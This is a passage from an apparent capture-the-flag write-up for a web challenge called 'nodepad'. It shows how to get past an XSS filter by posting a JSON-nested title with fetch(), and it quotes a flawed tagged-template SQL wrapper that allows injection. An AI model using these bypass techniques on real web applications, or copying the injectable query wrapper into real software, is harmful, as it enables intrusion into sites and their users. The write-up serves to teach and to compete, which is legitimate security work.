 ```javascript
});
```

#### Bypass XSS WAF Method 1: JSON-encoded Request

In the `app.js`, the express app server is using JSON parser. Therefore we can send a nested JSON object in the request and then `req.body.title` will become a javascript object.

```javascript
app.use(logger('dev'));
app.use(express.json());
app.use(express.urlencoded({ extended: false }));
```

By explicitly specifying the content type, we send a JSON nested object in the request. The title can bypass the regex check since `req.body.title` is an object `{"A":"<marquee>yo<marquee>"}`.

```javascript
(async () => {
  const rawResponse = await fetch('http://nodepad.hackable.software:3000/notes/new', {
    method: 'POST',
    headers: {'Content-Type': 'application/json'},
    body: JSON.stringify({"_csrf": "uXw9wsrT-cckWEy1fAO90289t9tOt56309BQ", "title": {"A":"<marquee>yo<marquee>"}, "content": "A"})
  });
  const content = await rawResponse;
  console.log(content);
})();
```

Thanks to [@10sec](https://ctftime.org/team/61603) for the clever JSON bypass technique again! However our team member @sasdf bypasses the WAF using SQL injection.

#### Bypass XSS WAF Method 2: SQL Injection

@sasdf's eagle eyes quickly found that there is SQL injection vulnerability.

They use tagged string template for SQL query to prevent injection, like this:
```javascript
const wrap = function(func) {
  return function(parts, ...values) {
    return func.call(this, parts.reduce ? parts.reduce( ([id, acc], x) => { return id === 0 ? [1, x] : [id+1, `${acc} \$${id} ${x}`]; }, [0, ''])[1] : parts, values);
  };  
};

const db = {                                                                                                           
  run: wrap(async (query, params) => {
    try {
      return await pool.query(query, params);
    } catch (error) {
      return {rows: [], error};
    }
  }),

  all: wrap(async (query, params) => {
    return (await db.run(query, ...params)).rows;
  }),

  get: wrap(async (query, params) => {
    return (await db.all(query, ...params))[0];
  })

};

await req.db.get `SELECT * FROM users WHERE name = ${req.body.name}`;
```